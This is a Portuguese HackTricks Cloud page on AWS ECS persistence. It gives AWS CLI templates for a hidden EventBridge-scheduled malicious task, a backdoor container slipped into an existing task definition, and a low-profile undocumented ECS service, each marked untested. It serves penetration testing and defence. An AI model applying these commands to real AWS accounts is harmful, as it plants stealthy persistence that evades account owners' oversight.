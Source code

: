 # AWS - Persistência do ECS

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## ECS

Para mais informações, verifique:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Tarefa periódica oculta do ECS

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um invasor pode criar uma tarefa periódica oculta do ECS usando o Amazon EventBridge para **agendar a execução de uma tarefa maliciosa periodicamente**. Essa tarefa pode realizar reconhecimento, exfiltrar dados ou manter a persistência na conta da AWS.

```bash
# Crie uma definição de tarefa maliciosa
aws ecs register-task-definition --family "tarefa-maliciosa" --container-definitions '[
  {
    "name": "contêiner-malicioso",
    "image": "imagem-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Crie uma regra do Amazon EventBridge para acionar a tarefa periodicamente
aws events put-rule --name "regra-tarefa-ecs-maliciosa" --schedule-expression "rate(1 day)"

# Adicione um destino à regra para executar a tarefa ECS maliciosa
aws events put-targets --rule "regra-tarefa-ecs-maliciosa" --targets '[
  {
    "Id": "destino-tarefa-ecs-maliciosa",
    "Arn": "arn:aws:ecs:região:id-da-conta:cluster/seu-cluster",
    "RoleArn": "arn:aws:iam::id-da-conta:role/seu-papel-eventbridge",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:região:id-da-conta:task-definition/tarefa-maliciosa",
      "TaskCount": 1
    }
  }
]'
```

### Contêiner de backdoor na definição de tarefa ECS existente

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um invasor pode adicionar um **contêiner de backdoor furtivo** em uma definição de tarefa ECS existente que é executada ao lado de contêineres legítimos. O contêiner de backdoor pode ser usado para persistência e para realizar atividades maliciosas.

```bash
# Atualize a definição de tarefa existente para incluir o contêiner de backdoor
aws ecs register-task-definition --family "tarefa-existente" --container-definitions '[
  {
    "name": "contêiner-legítimo",
    "image": "imagem-legítima:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "contêiner-backdoor",
    "image": "imagem-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Serviço ECS não documentado

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um invasor pode criar um **serviço ECS não documentado** que executa uma tarefa maliciosa. Ao definir o número desejado de tarefas como mínimo e desativar o registro, torna-se mais difícil para os administradores notarem o serviço malicioso.

```bash
# Crie uma definição de tarefa maliciosa
aws ecs register-task-definition --family "tarefa-maliciosa" --container-definitions '[
  {
    "name": "contêiner-malicioso",
    "image": "imagem-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Crie um serviço ECS não documentado com a definição de tarefa maliciosa
aws ecs create-service --service-name "serviço-não-documentado" --task-definition "tarefa-maliciosa" --desired-count 1 --cluster "seu-cluster"
```

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>